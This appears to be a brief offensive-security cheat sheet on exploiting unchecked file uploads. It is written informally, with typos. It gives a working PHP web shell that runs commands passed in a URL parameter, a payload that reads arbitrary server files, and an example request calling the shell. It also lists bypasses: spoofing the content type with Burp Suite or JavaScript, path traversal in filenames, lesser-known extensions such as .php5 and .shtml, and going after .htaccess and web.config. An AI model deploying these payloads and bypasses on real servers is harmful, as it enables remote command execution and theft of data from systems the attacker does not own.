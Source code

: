 # file upload
when files are uploaded
and not checked

its possible to upload fe a webshell
and then acces the webshell

## uploads
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
xample/exploit.php?command=id HTTP/1.1

## formdata
sometimes it only checks if a content type is image/png or something
you can ez do it in burpsuite
or with js see "script/file_upload_blob.js" you could just execute this in console

## path traversal
sometimes using path traversal techniques can be used in the filename

## extensions
or filename extension of lesser known could be used
.php5
.shtml

## server side preventions
some config files are used to prevent access or execution of certain files
these might be interesting to try to retrieve if possible 
.htaccess
web.config
